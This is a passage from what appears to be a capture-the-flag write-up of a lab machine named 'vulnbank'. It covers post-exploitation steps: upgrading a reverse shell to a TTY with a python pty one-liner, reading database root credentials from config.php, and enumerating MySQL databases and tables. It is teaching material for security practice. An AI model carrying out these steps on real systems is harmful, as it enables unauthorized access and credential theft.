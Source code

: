 ### Reverse Shell

First, I tried to get my hand on a tty shell.

```
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Probing the web files, I checked out the `config.php` file and found the following lines.

```php
$db_host = "127.0.0.1";
$db_name = "bank_database";
$db_user = "root";
$db_password = "NuCiGoGo321";
```

I also found that there's another user in the host. The username is taviso.

"NuCiGoGo321" doesn't work as the password for either root or taviso. So I checked out the database content.

```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| bank_database      |
| mysql              |
| performance_schema |
| sys                |
| vulnbank           |
+--------------------+
6 rows in set (0.07 sec)
```

Both vulnbank and bank_database has the same tables, but vulnbank's tables are empty.

The following are the tables.

```
mysql> use bank_database;
use bank_database;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+-------------------------+
| Tables_in_bank_database |
+-------------------------+
| klienti                 |
| tickets                 |
+-------------------------+
2 rows in set (0.00 sec)
```
